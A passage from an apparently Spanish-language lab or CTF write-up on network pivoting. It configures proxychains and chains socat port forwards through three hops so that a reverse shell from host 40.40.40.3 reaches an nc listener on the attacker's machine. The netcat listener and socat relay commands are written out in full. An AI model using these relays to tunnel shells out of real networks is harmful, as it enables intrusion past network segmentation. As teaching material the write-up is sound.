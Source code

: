 ```bash
socks5  127.0.0.1 3331
```

![Socks5 a la 30.30.30.0 puerto 3331.png](/assets/img/socks5-a-la-30.30.30.0-puerto-3331.png)

Con toda esta configuración, tendremos acceso a la red **40.40.40.0** desde nuestra máquina **10.10.10.0**, utilizando `proxychains`.

### **Enviándonos una Reverse Shell desde la 40.40.40.3 ➜ 10.10.10.1**

La vulnerabilidad que posee la máquina **40.40.40.3** es de tipo **RCE**, por lo que para conseguir acceso a dicha máquina, tenemos que enviarnos una *reverse shell* desde la **40.40.40.3** a nuestra máquina **10.10.10.1**. Para conseguir esto, deberemos de redirigir las conexiones con `socat` para que la *reverse shell* consiga llevar a nuestro puerto *1337* por el que estaremos en escucha.

Primeramente, nos pondremos en escucha en nuestra máquina **10.10.10.1** por el puerto comentado anteriormente.

```bash
nc -nlvp 1337
```

Seguidamente, accedemos de nuevo a la máquina **30.30.30.3** (también es la **40.40.40.2**), y redirigiremos todas las conexiones de esta máquina al puerto *443*, hacia el puerto *4443* de la máquina **30.30.30.2**.

```bash
./socat TCP-LISTEN:443,fork TCP:30.30.30.2:4443
```

A continuación, desde la **20.20.20.3** (que también es la **30.30.30.2**), redirigiremos todas las conexiones al puerto *4443*, hacia el puerto *4442* de la **20.20.20.2**.

```bash
./socat TCP-LISTEN:4443,fork TCP:20.20.20.2:4442
```

Finalmente, desde la **10.10.10.2** (también es la **20.20.20.2**), redirigiremos todas las conexiones al puerto *4442*, hacia el puerto *1337* de nuestra máquina (**10.10.10.1**) desde la cual estamos en escucha con `nc`.

```bash
./socat TCP-LISTEN:4442,fork TCP:10.10.10.1:1337
```
